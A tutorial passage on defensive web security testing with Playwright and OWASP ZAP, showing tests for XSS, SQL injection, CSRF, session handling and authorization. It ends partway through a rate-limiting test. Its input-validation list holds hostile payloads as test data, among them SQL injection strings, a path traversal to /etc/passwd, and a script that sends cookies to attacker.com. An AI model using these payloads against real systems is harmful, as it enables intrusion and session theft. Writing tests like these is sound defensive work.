

## Why This Matters

Security vulnerabilities are among the most critical defects in web applications, with consequences ranging from data breaches to complete system compromise. The OWASP Top 10 consistently lists injection attacks (XSS, SQL injection) and authentication failures as leading security risks. According to OWASP 2021 data, injection vulnerabilities affect 94% of applications tested, with XSS appearing in 40% of web applications. Traditional manual security testing is time-intensive, error-prone, and cannot scale to modern continuous deployment workflows where applications deploy multiple times daily.

Production security testing requires comprehensive validation of security controls across authentication, input validation, session management, and API security. Unlike functional testing, security testing focuses on what the application should NOT allow: malicious scripts, unauthorized access, session hijacking, and data tampering. Effective security testing verifies that the application fails gracefully when attacked, properly sanitizes user input, enforces authentication/authorization boundaries, and protects against common attack vectors. This testing must integrate into CI/CD pipelines to catch regressions before production deployment.

Automated security testing with Playwright enables development teams to validate security controls continuously, catching vulnerabilities early when they are least expensive to fix. By combining Playwright's browser automation with security testing patterns, teams can verify XSS prevention, CSRF token validation, input sanitization, authentication flows, and authorization boundaries. This approach complements (but does not replace) dedicated security tools like OWASP ZAP, Burp Suite, or penetration testing, providing fast feedback on security regressions during development while security specialists conduct deeper analysis periodically.

## Standard Library Approach: Playwright Built-in Security Testing

Playwright provides built-in capabilities for basic security testing through browser APIs and network interception.

```typescript
// test/security/xss-basic.spec.ts
// => Basic XSS detection using Playwright standard features
// => No external dependencies beyond @playwright/test

import { test, expect } from "@playwright/test";
// => Imports Playwright test framework
// => test() defines test cases, expect() for assertions

test("comment form prevents reflected XSS", async ({ page }) => {
  // => Tests XSS protection in user-generated content
  // => Playwright creates isolated browser context per test
  // => Context provides clean state without cookies/storage

  const maliciousScript = '<script>alert("XSS")</script>';
  // => Classic XSS payload attempting script injection
  // => Real attackers use sophisticated payloads (img onerror, etc)

  await page.goto("http://localhost:3000/comments");
  // => Navigates to comment form page
  // => Waits for DOMContentLoaded by default
  // => localhost:3000 typically test environment (not production)

  await page.fill("#comment-input", maliciousScript);
  // => Fills comment field with malicious script
  // => fill() clears existing content then types
  // => Does NOT trigger XSS (just data entry)

  await page.click('button[type="submit"]');
  // => Submits comment form
  // => Triggers server-side processing
  // => Server should sanitize input before storage/display

  await page.waitForSelector(".comment-list .comment:last-child");
  // => Waits for new comment to appear in DOM
  // => :last-child selects most recent comment
  // => Ensures server processed submission

  const commentHTML = await page.locator(".comment:last-child").innerHTML();
  // => Retrieves raw HTML of comment display
  // => innerHTML() returns actual rendered HTML
  // => Allows inspection of server's output sanitization

  expect(commentHTML).not.toContain("<script>");
  // => Verifies script tags NOT rendered literally
  // => Proper sanitization encodes < > as &lt; &gt;
  // => Test passes if <script> NOT present

  expect(commentHTML).toContain("&lt;script&gt;");
  // => Verifies script tags properly HTML-encoded
  // => &lt;script&gt; renders as visible text, not executable
  // => Confirms server applied HTML entity encoding

  const scriptElements = await page.$$("script");
  // => Queries all <script> tags in page DOM
  // => $$() returns array of ElementHandle instances
  // => Includes both inline and external scripts

  const userScript = scriptElements.find(async (el) => {
    // => Checks if ANY script tag contains user input
    // => Vulnerable if user content appears in <script>

    const content = await el.textContent();
    // => Retrieves script tag text content
    // => textContent() returns JavaScript code if present

    return content?.includes('alert("XSS")');
    // => Searches for XSS payload in script content
    // => If found, user input executed as code (CRITICAL vulnerability)
  });

  expect(userScript).toBeUndefined();
  // => Confirms NO script tags contain user input
  // => undefined means user content never reached <script> tags
  // => Critical assertion preventing code injection
});

test("SQL injection protection on search", async ({ page }) => {
  // => Tests input sanitization against SQL injection
  // => SQL injection allows database manipulation via crafted input
  // => OWASP #3 vulnerability (Injection)

  const sqlPayload = "' OR '1'='1";
  // => Classic SQL injection payload
  // => Attempts to bypass WHERE clause conditions
  // => In vulnerable SQL: WHERE name = '' OR '1'='1' (always true)

  await page.goto("http://localhost:3000/search");
  // => Navigates to search functionality
  // => Search features often vulnerable (user input → database query)

  const responseLogs: string[] = [];
  // => Collects API response bodies for analysis
  // => Allows inspection of error messages/data leakage
  // => Empty array initialized before request monitoring

  page.on("response", async (response) => {
    // => Intercepts ALL HTTP responses
    // => Runs for every response (HTML, JSON, images, etc)
    // => Allows inspection of server behavior

    if (response.url().includes("/api/search")) {
      // => Filters to search API responses only
      // => Ignores unrelated requests (CSS, images, etc)
      // => Targets the endpoint under test

      const body = await response.text();
      // => Retrieves response body as string
      // => Works for JSON, HTML, plain text responses
      // => await required (network operation)

      responseLogs.push(body);
      // => Stores response for post-request analysis
      // => Maintains execution order (chronological)
    }
  });

  await page.fill('input[name="q"]', sqlPayload);
  // => Fills search input with SQL injection payload
  // => name="q" common convention for search queries
  // => Payload attempts to manipulate database query

  await page.click('button[type="submit"]');
  // => Triggers search submission
  // => Sends payload to server for processing
  // => Server should sanitize/parameterize query

  await page.waitForLoadState("networkidle");
  // => Waits until NO network activity for 500ms
  // => Ensures all API calls completed
  // => networkidle reliable for AJAX-heavy pages

  expect(responseLogs.length).toBeGreaterThan(0);
  // => Confirms at least one API response captured
  // => If zero, test setup may be incorrect
  // => Guards against false positives

  for (const log of responseLogs) {
    // => Iterates through ALL captured responses
    // => Checks each response for SQL error leakage

    expect(log).not.toMatch(/SQL syntax error/i);
    // => Verifies NO SQL error messages exposed
    // => /i flag for case-insensitive matching
    // => SQL errors indicate query construction vulnerability

    expect(log).not.toMatch(/mysql|postgresql|sqlite/i);
    // => Checks for database system name leakage
    // => Exposed DB type aids attacker reconnaissance
    // => Production should use generic error messages
  }

  const resultCount = await page.locator(".search-result").count();
  // => Counts search results returned
  // => .count() returns number of matching elements

  expect(resultCount).toBeLessThan(100);
  // => Verifies payload did NOT bypass filtering
  // => ' OR '1'='1' would return ALL records (likely >100)
  // => Small result count suggests proper parameterization
});
```

**Limitations for production**:

- **No vulnerability scanning**: Tests only known attack vectors you explicitly code; misses emerging threats
- **Manual payload management**: Requires security expertise to craft realistic attack payloads
- **Limited coverage**: XSS/SQL injection only; missing CSRF, authentication bypass, authorization flaws
- **No security reporting**: Results appear as generic test failures; no CVE mapping or severity ratings
- **Missing compliance validation**: Cannot verify OWASP Top 10, PCI-DSS, or regulatory requirements
- **No authentication testing**: Playwright doesn't provide patterns for token validation, session fixation, or privilege escalation
- **False negatives**: Basic string matching can miss sophisticated encoding attacks (UTF-7 XSS, polyglot payloads)

## Production Framework: Integrating OWASP ZAP

OWASP ZAP (Zed Attack Proxy) provides comprehensive security scanning with 50+ vulnerability checks, CVE mapping, and compliance reporting. Integration combines Playwright's browser automation with ZAP's security analysis.

```typescript
// test/security/xss-production.spec.ts
// => Production security testing with ZAP integration
// => Combines Playwright automation + ZAP vulnerability scanning
// => Requires OWASP ZAP running on localhost:8080

import { test, expect } from "@playwright/test";
// => Playwright test framework for browser automation
import axios from "axios";
// => HTTP client for ZAP REST API communication
// => Install: npm install --save-dev axios

interface ZapAlert {
  // => Type definition for ZAP vulnerability alerts
  // => Provides structure for security findings

  alert: string;
  // => Vulnerability name (e.g., "Cross Site Scripting")

  risk: "High" | "Medium" | "Low" | "Informational";
  // => Severity rating (OWASP risk levels)

  confidence: "High" | "Medium" | "Low";
  // => Detection confidence level
  // => High = confirmed, Low = potential false positive

  description: string;
  // => Detailed vulnerability description

  solution: string;
  // => Recommended remediation steps

  url: string;
  // => Affected URL where vulnerability detected
}

interface ZapScanStatus {
  // => Type definition for ZAP scan progress
  status: string;
  // => Progress percentage (0-100)
}

interface ZapScanResponse {
  // => Type definition for ZAP API responses
  scan: string;
  // => Scan ID for tracking scan progress
}

const ZAP_API_KEY = process.env.ZAP_API_KEY || "development-key-change-in-production";
// => ZAP API authentication key
// => Environment variable for security (never hardcode)
// => Default only for local development

const ZAP_BASE_URL = "http://localhost:8080";
// => ZAP proxy listens on port 8080
// => All Playwright traffic routes through ZAP
// => ZAP inspects/modifies HTTP traffic for security testing

test.describe("Production Security Testing with ZAP", () => {
  // => Test suite grouping security tests
  // => describe() allows shared setup/teardown

  test.beforeAll(async () => {
    // => Runs ONCE before all tests in suite
    // => Sets up ZAP scanning session
    // => beforeAll() NOT beforeEach() (expensive setup)

    try {
      // => try-catch handles ZAP connection failures
      // => Provides clear error if ZAP not running

      await axios.get(`${ZAP_BASE_URL}/JSON/core/view/version/?apikey=${ZAP_API_KEY}`);
      // => Health check verifies ZAP API accessible
      // => /core/view/version returns ZAP version info
      // => Fails fast if ZAP not running

      await axios.get(
        `${ZAP_BASE_URL}/JSON/core/action/newSession/?apikey=${ZAP_API_KEY}&name=playwright-security-tests&overwrite=true`,
      );
      // => Creates new ZAP session for test run
      // => overwrite=true clears previous session data
      // => Isolates test runs (no cross-contamination)
    } catch (error) {
      // => Catches connection errors (ECONNREFUSED, etc)

      console.error("❌ OWASP ZAP not running. Start ZAP before running security tests.");
      // => User-friendly error message
      // => Instructs how to resolve issue

      console.error(
        "Start ZAP: docker run -p 8080:8080 owasp/zap2docker-stable zap.sh -daemon -config api.key=development-key-change-in-production",
      );
      // => Provides Docker command to start ZAP
      // => -daemon runs headless (CI-friendly)
      // => -config sets API key

      throw error;
      // => Re-throws to fail test setup
      // => Prevents false positives if ZAP unavailable
    }
  });

  test("comprehensive XSS protection with ZAP scanning", async ({ browser }) => {
    // => Production-grade XSS testing with vulnerability scanner
    // => Uses browser fixture (NOT page) for proxy configuration

    const context = await browser.newContext({
      // => Creates browser context with ZAP proxy
      // => Isolated session (cookies, storage, etc)

      proxy: {
        server: ZAP_BASE_URL,
        // => Routes ALL traffic through ZAP proxy
        // => ZAP intercepts/analyzes every request/response
      },

      ignoreHTTPSErrors: true,
      // => Accepts ZAP's self-signed certificates
      // => Required for HTTPS interception
      // => Production ZAP uses CA certificate installation
    });

    const page = await context.newPage();
    // => Creates page within proxied context
    // => All requests automatically go through ZAP

    await page.goto("http://localhost:3000/comments");
    // => Navigates to target application
    // => ZAP records request/response for analysis
    // => localhost:3000 test environment (NOT production)

    const targetUrl = page.url();
    // => Captures current URL for ZAP targeting
    // => Ensures ZAP scans correct endpoint

    // Trigger ZAP active scan
    // => Active scanning attempts actual attacks
    // => Differs from passive (observes normal traffic)

    const scanResponse = await axios.get<ZapScanResponse>(`${ZAP_BASE_URL}/JSON/ascan/action/scan/`, {
      // => Initiates ZAP active scan via REST API
      // => /ascan/action/scan launches vulnerability scanning
      // => Returns scan ID for progress tracking

      params: {
        apikey: ZAP_API_KEY,
        // => Authenticates API request

        url: targetUrl,
        // => Target URL to scan
        // => ZAP attacks this endpoint with payloads

        recurse: "true",
        // => Enables recursive crawling (finds linked pages)
        // => Discovers entire application surface

        inScopeOnly: "false",
        // => Scans URLs even outside defined scope
        // => 'true' recommended for large applications

        scanPolicyName: "Default Policy",
        // => Scan policy defines enabled checks
        // => 'Default Policy' includes 50+ vulnerability checks
        // => Custom policies can focus on specific attack types

        method: "GET",
        // => HTTP method for initial request
        // => ZAP attempts attacks via GET/POST/headers/etc

        postData: "",
        // => Request body for POST scans
        // => Empty for GET requests
      },
    });

    const scanId = scanResponse.data.scan;
    // => Extracts scan ID from response
    // => Used to poll scan progress

    console.log(`🔍 ZAP scan initiated: ${scanId}`);
    // => Logs scan ID for debugging
    // => Useful when investigating CI failures

    // Poll scan status until complete
    // => ZAP scans run asynchronously (seconds to minutes)
    // => Must wait for completion before retrieving results

    let scanStatus = "0";
    // => Progress starts at 0%
    // => Increments as ZAP completes checks

    while (parseInt(scanStatus) < 100) {
      // => Loops until scan 100% complete
      // => parseInt() converts string percentage to number

      await new Promise((resolve) => setTimeout(resolve, 5000));
      // => Waits 5 seconds between polls
      // => Avoids hammering ZAP API
      // => Adjust based on application size (2-10s reasonable)

      const statusResponse = await axios.get<ZapScanStatus>(`${ZAP_BASE_URL}/JSON/ascan/view/status/`, {
        // => Queries scan progress via REST API
        // => /ascan/view/status returns current percentage

        params: {
          apikey: ZAP_API_KEY,
          scanId: scanId,
          // => Identifies which scan to check
        },
      });

      scanStatus = statusResponse.data.status;
      // => Updates progress percentage
      // => Loop continues until '100'

      console.log(`⏳ ZAP scan progress: ${scanStatus}%`);
      // => Progress feedback for long-running scans
      // => Helpful in CI logs
    }

    console.log("✅ ZAP scan complete");

    // Retrieve alerts (vulnerabilities)
    // => Alerts contain discovered security issues

    const alertsResponse = await axios.get<{ alerts: ZapAlert[] }>(`${ZAP_BASE_URL}/JSON/alert/view/alerts/`, {
      // => Fetches all vulnerability findings
      // => /alert/view/alerts returns JSON array

      params: {
        apikey: ZAP_API_KEY,
        baseurl: targetUrl,
        // => Filters alerts to target URL only
        // => Excludes findings from other scans

        start: 0,
        // => Pagination start index
        // => 0 retrieves from beginning

        count: 1000,
        // => Maximum alerts to retrieve
        // => 1000 sufficient for most applications
      },
    });

    const alerts = alertsResponse.data.alerts;
    // => Array of vulnerability objects

    console.log(`🚨 Found ${alerts.length} security alerts`);

    // Filter high-risk vulnerabilities
    // => Production focuses on High/Medium severity
    // => Low/Informational reviewed separately

    const highRiskAlerts = alerts.filter((alert) => alert.risk === "High");
    // => Isolates critical vulnerabilities
    // => High risk requires immediate remediation

    const mediumRiskAlerts = alerts.filter((alert) => alert.risk === "Medium");
    // => Isolates moderate vulnerabilities
    // => Medium risk addressed before release

    if (highRiskAlerts.length > 0) {
      // => Logs detailed information for high-risk findings
      // => Helps developers understand and fix issues

      console.error("❌ HIGH RISK VULNERABILITIES:");

      highRiskAlerts.forEach((alert) => {
        console.error(`  - ${alert.alert} (${alert.confidence} confidence)`);
        // => Logs vulnerability name + confidence
        // => Low confidence may be false positive

        console.error(`    URL: ${alert.url}`);
        // => Shows affected endpoint

        console.error(`    Description: ${alert.description}`);
        // => Explains vulnerability impact

        console.error(`    Solution: ${alert.solution}`);
        // => Provides remediation guidance
      });
    }

    if (mediumRiskAlerts.length > 0) {
      // => Logs medium-risk findings
      // => Same structure as high-risk logging

      console.warn("⚠️ MEDIUM RISK VULNERABILITIES:");

      mediumRiskAlerts.forEach((alert) => {
        console.warn(`  - ${alert.alert} (${alert.confidence} confidence)`);
        console.warn(`    URL: ${alert.url}`);
        console.warn(`    Solution: ${alert.solution}`);
      });
    }

    // Fail test if high-risk vulnerabilities found
    // => Production standard: zero high-risk in release

    expect(highRiskAlerts.length).toBe(0);
    // => Test fails if ANY high-risk found
    // => Blocks CI/CD pipeline deployment

    // Warn but don't fail on medium-risk
    // => Medium-risk addressed through backlog
    // => Doesn't block deployment (team decision)

    expect(mediumRiskAlerts.length).toBeLessThan(5);
    // => Allows limited medium-risk findings
    // => Threshold customized per organization
    // => Prevents accumulation of technical debt

    await context.close();
    // => Closes browser context
    // => Releases resources (memory, network connections)
  });

  test("CSRF token validation", async ({ browser }) => {
    // => Tests Cross-Site Request Forgery protection
    // => CSRF allows attackers to submit unauthorized requests
    // => OWASP #8 vulnerability (Software and Data Integrity Failures)

    const context = await browser.newContext({
      proxy: { server: ZAP_BASE_URL },
      ignoreHTTPSErrors: true,
      // => Routes traffic through ZAP for analysis
    });

    const page = await context.newPage();

    await page.goto("http://localhost:3000/profile/edit");
    // => Navigates to state-changing form
    // => CSRF protection required for POST/PUT/DELETE

    const csrfToken = await page.inputValue('input[name="csrf_token"]');
    // => Retrieves CSRF token from hidden form field
    // => inputValue() reads <input> value attribute
    // => Tokens typically random per-session values

    expect(csrfToken).toBeTruthy();
    // => Verifies token exists in form
    // => Missing token = NO CSRF protection

    expect(csrfToken.length).toBeGreaterThan(20);
    // => Validates token has sufficient entropy
    // => Short tokens vulnerable to brute force
    // => 20+ characters recommended (128+ bits entropy)

    // Submit form WITHOUT CSRF token
    // => Simulates CSRF attack scenario
    // => Server MUST reject request

    const response = await page.request.post("http://localhost:3000/api/profile/update", {
      // => Sends POST request via Playwright request API
      // => Bypasses form submission (direct API call)

      data: {
        // => Request body data
        email: "attacker@evil.com",
        // => Payload attempts to modify user email

        csrf_token: "",
        // => Missing or empty CSRF token
        // => Server should reject request
      },

      headers: {
        "Content-Type": "application/json",
        // => JSON payload format
      },
    });

    expect(response.status()).toBe(403);
    // => Verifies server returns 403 Forbidden
    // => Confirms CSRF validation enforced
    // => Acceptable alternatives: 400 Bad Request, 401 Unauthorized

    const responseBody = await response.text();
    // => Retrieves error response body

    expect(responseBody).toMatch(/CSRF.*invalid|forbidden/i);
    // => Confirms error message mentions CSRF
    // => Validates rejection reason clear to client

    // Submit form WITH valid CSRF token
    // => Verifies legitimate requests still work
    // => Guards against overly restrictive validation

    const validResponse = await page.request.post("http://localhost:3000/api/profile/update", {
      data: {
        email: "valid@example.com",
        csrf_token: csrfToken,
        // => Includes valid token from form
      },

      headers: {
        "Content-Type": "application/json",
        Cookie: await context.cookies().then((cookies) => cookies.map((c) => `${c.name}=${c.value}`).join("; ")),
        // => Includes session cookies for authentication
        // => Cookie header format: name=value; name2=value2
        // => CSRF token validation often requires valid session
      },
    });

    expect(validResponse.status()).toBe(200);
    // => Confirms valid requests accepted
    // => Ensures CSRF protection doesn't break functionality

    await context.close();
  });
});
```



## Production Patterns and Best Practices

### Pattern 1: Input Validation Testing

```typescript
// test/security/input-validation.spec.ts
// => Validates server-side input sanitization
// => Client validation bypassable (never trust client)
// => Server MUST validate ALL inputs

import { test, expect } from "@playwright/test";

interface ValidationTest {
  // => Type definition for validation test cases
  input: string;
  // => Malicious or invalid input payload
  description: string;
  // => Human-readable test case description
  expectedBehavior: "reject" | "sanitize";
  // => Expected server behavior (reject request OR sanitize input)
}

const validationTests: ValidationTest[] = [
  // => Array of comprehensive validation test cases
  // => Covers common attack vectors and edge cases

  {
    input: "",
    // => XSS via img tag with onerror event handler
    description: "XSS via img onerror",
    expectedBehavior: "sanitize",
    // => Server should encode < > or strip tags
  },

  {
    input: '<iframe src="javascript:alert(1)">',
    // => XSS via iframe with javascript: protocol
    description: "XSS via iframe javascript protocol",
    expectedBehavior: "sanitize",
  },

  {
    input: '"><script>alert(String.fromCharCode(88,83,83))</script>',
    // => XSS breaking out of attribute context
    // => fromCharCode() bypasses simple string filtering
    description: "XSS with attribute breakout",
    expectedBehavior: "sanitize",
  },

  {
    input: "<svg/onload=alert(1)>",
    // => XSS via SVG tag with onload event
    description: "XSS via SVG onload",
    expectedBehavior: "sanitize",
  },

  {
    input: "javascript:alert(1)",
    // => XSS via javascript: protocol in href
    description: "XSS via javascript protocol",
    expectedBehavior: "sanitize",
  },

  {
    input: "'; DROP TABLE users; --",
    // => Classic SQL injection payload
    description: "SQL injection with table drop",
    expectedBehavior: "sanitize",
    // => Parameterized queries prevent SQL injection
  },

  {
    input: "../../../etc/passwd",
    // => Path traversal attack attempting to read system files
    description: "Path traversal attack",
    expectedBehavior: "reject",
    // => Server should validate file paths (no ../ allowed)
  },

  {
    input: "%00",
    // => Null byte injection (file extension bypass)
    description: "Null byte injection",
    expectedBehavior: "reject",
  },

  {
    input: "A".repeat(10000),
    // => Buffer overflow attempt (extremely long input)
    description: "Buffer overflow attempt",
    expectedBehavior: "reject",
    // => Server should enforce max length limits
  },

  {
    input: '<script>fetch("http://attacker.com?cookie="+document.cookie)</script>',
    // => XSS attempting to exfiltrate session cookies
    description: "XSS with cookie theft",
    expectedBehavior: "sanitize",
  },
];

test.describe("Input Validation Security", () => {
  for (const testCase of validationTests) {
    // => Iterates through all validation test cases
    // => Creates separate test for each payload

    test(`validates: ${testCase.description}`, async ({ page }) => {
      // => Test name includes description for clarity
      // => Failing test clearly identifies vulnerable input type

      await page.goto("http://localhost:3000/comments");
      // => Navigates to form accepting user input

      await page.fill("#comment-input", testCase.input);
      // => Fills input field with malicious payload
      // => Simulates attacker typing dangerous input

      await page.click('button[type="submit"]');
      // => Submits form to server

      await page.waitForLoadState("networkidle");
      // => Waits for server processing completion

      if (testCase.expectedBehavior === "reject") {
        // => Server should refuse to process input
        // => Used for path traversal, null bytes, oversized input

        const errorMessage = await page.locator(".error-message").textContent();
        // => Retrieves error message displayed to user

        expect(errorMessage).toBeTruthy();
        // => Confirms error message shown
        // => Indicates server rejected malicious input

        expect(errorMessage).toMatch(/invalid|error|forbidden/i);
        // => Verifies error message content appropriate
        // => Avoids revealing vulnerability details to attacker
      } else if (testCase.expectedBehavior === "sanitize") {
        // => Server should process but sanitize input
        // => Used for XSS payloads in user-generated content

        const displayedContent = await page.locator(".comment:last-child").innerHTML();
        // => Retrieves rendered HTML of submitted comment

        // Verify dangerous tags/protocols removed or encoded
        expect(displayedContent).not.toContain("<script");
        // => Confirms <script> tags NOT rendered literally
        expect(displayedContent).not.toContain("onerror=");
        // => Confirms event handlers NOT preserved
        expect(displayedContent).not.toContain("javascript:");
        // => Confirms javascript: protocol NOT preserved

        // Verify proper HTML encoding applied
        if (testCase.input.includes("<")) {
          // => If input contained < character, should be encoded

          expect(displayedContent).toContain("&lt;");
          // => Confirms < encoded as &lt;
          // => Renders as visible text, not HTML tag
        }

        // Verify no executable code in script tags
        const scripts = await page.$$("script");
        // => Queries all <script> tags in page

        for (const script of scripts) {
          // => Checks each script tag
          const scriptContent = await script.textContent();

          expect(scriptContent).not.toContain(testCase.input);
          // => Confirms user input NOT in any script tag
          // => Critical: user input in <script> is code injection
        }
      }
    });
  }
});
```

### Pattern 2: Authentication Bypass Testing

```typescript
// test/security/authentication.spec.ts
// => Tests authentication boundary enforcement
// => Verifies unauthenticated users cannot access protected resources
// => Validates session management security

import { test, expect } from "@playwright/test";

test.describe("Authentication Security", () => {
  test("protected routes require authentication", async ({ page }) => {
    // => Verifies authentication gates on sensitive pages
    // => Unauthenticated access should redirect to login

    const protectedUrls = [
      // => Array of URLs requiring authentication
      "http://localhost:3000/dashboard",
      "http://localhost:3000/profile",
      "http://localhost:3000/admin",
      "http://localhost:3000/settings",
    ];

    for (const url of protectedUrls) {
      // => Tests each protected URL
      // => Ensures comprehensive authentication enforcement

      await page.goto(url);
      // => Attempts to access protected resource
      // => No session cookie (unauthenticated state)

      const currentUrl = page.url();
      // => Retrieves final URL after potential redirects

      expect(currentUrl).toMatch(/\/login/);
      // => Confirms redirect to login page
      // => Indicates authentication required

      expect(currentUrl).not.toBe(url);
      // => Ensures didn't stay on protected page
      // => Confirms authentication gate enforced

      const loginForm = await page.locator('form[action*="login"]');
      // => Searches for login form on page

      expect(await loginForm.isVisible()).toBe(true);
      // => Confirms login form displayed
      // => User must authenticate before proceeding
    }
  });

  test("session cookies have secure attributes", async ({ context, page }) => {
    // => Validates secure cookie configuration
    // => Prevents session hijacking via XSS or network sniffing

    await page.goto("http://localhost:3000/login");
    // => Navigates to login page

    await page.fill('input[name="username"]', "testuser");
    await page.fill('input[name="password"]', "testpass123");
    await page.click('button[type="submit"]');
    // => Performs authentication
    // => Server sets session cookie upon successful login

    await page.waitForURL("**/dashboard");
    // => Waits for redirect to authenticated area
    // => Confirms login successful

    const cookies = await context.cookies();
    // => Retrieves all cookies in browser context

    const sessionCookie = cookies.find((c) => c.name === "session" || c.name === "sessionid");
    // => Finds session management cookie
    // => Common names: session, sessionid, PHPSESSID, etc

    expect(sessionCookie).toBeDefined();
    // => Confirms session cookie exists
    // => Required for maintaining authentication state

    expect(sessionCookie?.httpOnly).toBe(true);
    // => Verifies HttpOnly flag set
    // => Prevents JavaScript access to cookie (XSS protection)
    // => Critical security control

    expect(sessionCookie?.secure).toBe(true);
    // => Verifies Secure flag set (production HTTPS)
    // => Prevents transmission over unencrypted HTTP
    // => May be false in localhost development

    expect(sessionCookie?.sameSite).toMatch(/Strict|Lax/);
    // => Verifies SameSite attribute set
    // => Strict: no cross-site requests
    // => Lax: allows top-level navigation
    // => Prevents CSRF attacks
  });

  test("prevents session fixation attacks", async ({ browser }) => {
    // => Tests session ID regeneration after authentication
    // => Session fixation: attacker sets victim's session ID

    const context1 = await browser.newContext();
    // => First browser context (attacker perspective)

    const page1 = await context1.newPage();

    await page1.goto("http://localhost:3000/login");
    // => Loads login page (generates anonymous session)

    const preLoginCookies = await context1.cookies();
    // => Retrieves session cookie BEFORE authentication

    const preLoginSession = preLoginCookies.find((c) => c.name === "session" || c.name === "sessionid");
    // => Captures pre-authentication session ID

    await page1.fill('input[name="username"]', "testuser");
    await page1.fill('input[name="password"]', "testpass123");
    await page1.click('button[type="submit"]');
    // => Authenticates user

    await page1.waitForURL("**/dashboard");
    // => Waits for authentication success

    const postLoginCookies = await context1.cookies();
    // => Retrieves session cookie AFTER authentication

    const postLoginSession = postLoginCookies.find((c) => c.name === "session" || c.name === "sessionid");
    // => Captures post-authentication session ID

    expect(postLoginSession?.value).not.toBe(preLoginSession?.value);
    // => CRITICAL: Session ID MUST change after login
    // => Prevents session fixation (attacker cannot pre-set session)
    // => Secure implementation regenerates session ID on privilege change

    await context1.close();
  });

  test("enforces authorization boundaries", async ({ browser }) => {
    // => Tests horizontal privilege escalation prevention
    // => User A should NOT access User B's resources

    // Create two separate user sessions
    const userAContext = await browser.newContext();
    // => Browser context for User A
    const userBContext = await browser.newContext();
    // => Browser context for User B (isolated session)

    const userAPage = await userAContext.newPage();
    const userBPage = await userBContext.newPage();

    // User A logs in
    await userAPage.goto("http://localhost:3000/login");
    await userAPage.fill('input[name="username"]', "userA");
    await userAPage.fill('input[name="password"]', "passwordA");
    await userAPage.click('button[type="submit"]');
    await userAPage.waitForURL("**/dashboard");
    // => User A authenticated with their session

    // User B logs in
    await userBPage.goto("http://localhost:3000/login");
    await userBPage.fill('input[name="username"]', "userB");
    await userBPage.fill('input[name="password"]', "passwordB");
    await userBPage.click('button[type="submit"]');
    await userBPage.waitForURL("**/dashboard");
    // => User B authenticated with separate session

    // Extract User B's profile ID from URL
    await userBPage.goto("http://localhost:3000/profile");
    const userBProfileUrl = userBPage.url();
    // => Captures User B's profile URL
    // => Typically contains user ID: /profile/12345

    const userBId = userBProfileUrl.split("/").pop();
    // => Extracts user ID from URL path

    // User A attempts to access User B's profile
    await userAPage.goto(`http://localhost:3000/profile/${userBId}`);
    // => Simulates horizontal privilege escalation attempt
    // => User A should NOT see User B's profile

    // Verify access denied
    const currentUrl = userAPage.url();

    // Should redirect to error page OR own profile
    expect(currentUrl).not.toContain(userBId!);
    // => Confirms User A NOT viewing User B's profile
    // => May redirect to own profile or 403 error page

    const errorMessage = await userAPage
      .locator(".error-message")
      .textContent()
      .catch(() => null);
    // => Attempts to find error message
    // => .catch() handles case where no error message (redirect instead)

    if (errorMessage) {
      expect(errorMessage).toMatch(/forbidden|unauthorized|access denied/i);
      // => Verifies appropriate error message shown
      // => Confirms authorization boundary enforced
    }

    await userAContext.close();
    await userBContext.close();
  });
});
```

### Pattern 3: API Security Testing

```typescript
// test/security/api-security.spec.ts
// => Tests REST API security controls
// => Validates authentication, authorization, rate limiting, input validation

import { test, expect } from "@playwright/test";

test.describe("API Security", () => {
  test("API endpoints require authentication", async ({ request }) => {
    // => Tests API authentication enforcement
    // => Uses Playwright request context (NOT browser page)

    const protectedEndpoints = [
      // => Array of API endpoints requiring authentication
      { method: "GET", url: "http://localhost:3000/api/users" },
      { method: "POST", url: "http://localhost:3000/api/posts" },
      { method: "PUT", url: "http://localhost:3000/api/profile/1" },
      { method: "DELETE", url: "http://localhost:3000/api/posts/1" },
    ];

    for (const endpoint of protectedEndpoints) {
      // => Tests each endpoint
      // => Ensures comprehensive authentication coverage

      const response = await request.fetch(endpoint.url, {
        method: endpoint.method as "GET" | "POST" | "PUT" | "DELETE",
        // => Makes HTTP request WITHOUT authentication headers
        // => Simulates unauthenticated API access attempt

        headers: {
          "Content-Type": "application/json",
          // => No Authorization header (unauthenticated)
        },
      });

      expect(response.status()).toBe(401);
      // => Verifies 401 Unauthorized returned
      // => Confirms authentication required

      const body = await response.json();
      // => Retrieves error response body

      expect(body.error).toMatch(/unauthorized|authentication required/i);
      // => Confirms error message indicates auth failure
      // => Helps API consumers understand rejection reason
    }
  });

  test("API enforces rate limiting", async ({ request }) => {
    // => Tests denial-of-service protection via rate limiting
    // => Prevents brute force, resource exhaustion attacks

    const endpoint = "http://localhost:3000/api/search";
    // => Target endpoint for rate limit testing
    // => Search APIs common rate limit targets
